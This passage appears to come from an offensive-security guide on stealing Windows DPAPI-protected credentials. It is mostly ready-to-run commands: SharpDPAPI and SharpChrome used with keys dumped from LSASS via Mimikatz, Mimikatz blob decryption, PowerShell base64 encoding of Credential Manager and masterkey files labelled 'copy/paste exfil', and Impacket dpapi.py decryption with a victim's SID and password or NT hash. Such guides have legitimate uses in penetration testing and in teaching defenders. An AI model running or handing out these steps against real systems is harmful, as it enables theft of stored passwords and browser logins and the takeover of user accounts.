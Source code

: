 ```
/server:SERVER      -   triage a remote server, assuming admin access
                        Note: must use with /pvk:KEY or /password:X
                        Note: not applicable to 'blob' or 'ps' commands
```

- Using a DPAPI prekey/credkey directly (no password needed)

If you can dump LSASS, Mimikatz often exposes a per-logon DPAPI key that can be used to decrypt the user’s masterkeys without knowing the plaintext password. Pass this value directly to the tooling:

```cmd
# SharpDPAPI accepts the "credkey" (domain or local SHA1)
SharpDPAPI.exe triage /credkey:SHA1_HEX

# SharpChrome accepts the same value as a "prekey"
SharpChrome logins /browser:edge /prekey:SHA1_HEX
```

- Decrypt some data using **current user session**:

```bash
# Mimikatz
dpapi::blob /in:C:\path\to\encrypted\file /unprotect

# SharpDPAPI
SharpDPAPI.exe blob /target:C:\path\to\encrypted\file /unprotect
```

---

### Offline decryption with Impacket dpapi.py

If you have the victim user’s SID and password (or NT hash), you can decrypt DPAPI masterkeys and Credential Manager blobs entirely offline using Impacket’s dpapi.py.

- Identify artefacts on disk:
  - Credential Manager blob(s): %APPDATA%\Microsoft\Credentials\<hex>
  - Matching masterkey: %APPDATA%\Microsoft\Protect\<SID>\{GUID}

- If file transfer tooling is flaky, base64 the files on-host and copy the output:

```powershell
# Base64-encode files for copy/paste exfil
[Convert]::ToBase64String([IO.File]::ReadAllBytes("$env:APPDATA\Microsoft\Credentials\C8D69E...B9"))
[Convert]::ToBase64String([IO.File]::ReadAllBytes("$env:APPDATA\Microsoft\Protect\<SID>\556a2412-1275-4ccf-b721-e6a0b4f90407"))
```

- Decrypt the masterkey with the user’s SID and password/hash:

```bash
# Plaintext password
python3 dpapi.py masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 \
  -sid S-1-5-21-1111-2222-3333-1107 -password 'UserPassword!'

# Or with NT hash
python3 dpapi.py masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 \
  -sid S-1-5-21-1111-2222-3333-1107 -key 0x<NTLM_HEX>
```
